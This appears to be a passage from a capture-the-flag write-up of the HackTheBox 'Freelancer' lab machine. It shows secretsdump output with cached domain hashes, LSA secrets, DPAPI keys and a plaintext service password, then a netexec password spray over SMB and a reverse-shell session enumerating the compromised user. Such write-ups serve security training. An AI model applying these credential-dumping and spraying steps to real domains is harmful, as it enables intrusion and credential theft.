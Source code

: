 ```bash
FREELANCER.HTB/liza.kazanof:$DCC2$10240#liza.kazanof#ecd6e532224ccad2abcf2369ccb8b679: (2023-10-04 17:31:23)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:a680a4af30e045066419c6f52c073d738241fa9d1cff591b951535cff5320b109e65220c1c9e4fa891c9d1ee22e990c4766b3eb63fb3e2da67ebd19830d45c0ba4e6e6df93180c0a7449750655edd78eb848f757689a6889f3f8f7f6cf53e1196a528a7cd105a2eccefb2a17ae5aebf84902e3266bbc5db6e371627bb0828c2a364cb01119cf3d2c70d920328c814cad07f2b516143d86d0e88ef1504067815ed70e9ccb861f57394d94ba9f77198e9d76ecadf8cdb1afda48b81f81d84ac62530389cb64d412b784f0f733551a62ec0862ac2fb261b43d79990d4e2bfbf4d7d4eeb90ccd7dc9b482028c2143c5a6010
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1003ddfa0a470017188b719e1eaae709
[*] DPAPI_SYSTEM
dpapi_machinekey:0xcf1bc407d272ade7e781f17f6f3a3fc2b82d16bc
dpapi_userkey:0x6d210ab98889fac8829a1526a5d6a2f76f8f9d53
[*] NL$KM
 0000   63 4D 9D 4C 85 EF 33 FF  A5 E1 4D E2 DC A1 20 75   cM.L..3...M... u
 0010   D2 20 EA A9 BC E0 DB 7D  BE 77 E9 BE 6E AD 47 EC   . .....}.w..n.G.
 0020   26 02 E1 F6 BF F5 C5 CC  F9 D6 7A 16 49 1C 43 C5   &.........z.I.C.
 0030   77 6D E0 A8 C6 24 15 36  BF 27 49 96 19 B9 63 20   wm...$.6.'I...c
NL$KM:634d9d4c85ef33ffa5e14de2dca12075d220eaa9bce0db7dbe77e9be6ead47ec2602e1f6bff5c5ccf9d67a16491c43c5776de0a8c6241536bf27499619b96320
[*] _SC_MSSQL$DATA
(Unknown User):PWN3D#l0rr@Armessa199
[*] Cleaning up...
```

`impacket-secretsdump` can be used to dump SAM hashes.

Get the user with this password:
```bash
└─$ netexec smb 10.10.11.5 -u usernames.txt -p 'PWN3D#l0rr@Armessa199'
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
...
SMB         10.10.11.5      445    DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199
```

Get the reverse shell and explore system:
```bash
PS C:\WINDOWS\system32> cd $HOME
cd $HOME
PS C:\Users\lorra199> tree /f
tree /f
Folder PATH listing
Volume serial number is 8954-28AE
C:.
3D Objects
Contacts
Desktop
Documents
Downloads
       PowerView3.ps1

Favorites
Links
Music
Pictures
Saved Games
Searches
Videos
PS C:\WINDOWS\system32> whoami /priv
Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
```